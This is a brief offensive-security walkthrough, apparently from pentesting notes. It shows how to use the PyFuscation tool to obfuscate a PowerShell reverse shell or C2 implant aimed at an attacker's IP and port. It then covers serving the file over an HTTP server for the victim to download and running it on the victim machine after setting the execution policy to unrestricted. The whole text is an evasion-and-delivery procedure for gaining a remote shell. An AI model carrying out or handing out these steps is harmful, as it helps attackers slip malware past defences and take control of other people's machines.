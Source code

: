 # Pyfuscation

Link: https://github.com/CBHue/PyFuscation

## Steps

#### 1) Clone the repo on our machine

    git clone https://github.com/CBHue/PyFuscation

#### 2) Create a powershell reverse shell or c2 implant with attacker IP and port

#### 3) Obfuscate our powershell with pyfuscation

    python3 Pyfuscation.py -fvp --ps powershellrev.ps1

#### 4) Rename the newly created .ps1 file

#### 5) Serve the file for the victim to download

    sudo python3 -m http.server 80

#### 6) Download, then execute the .ps1 from victim machine

    Set-ExecutionPolicy unrestricted
    .\powershellrevobf.ps1
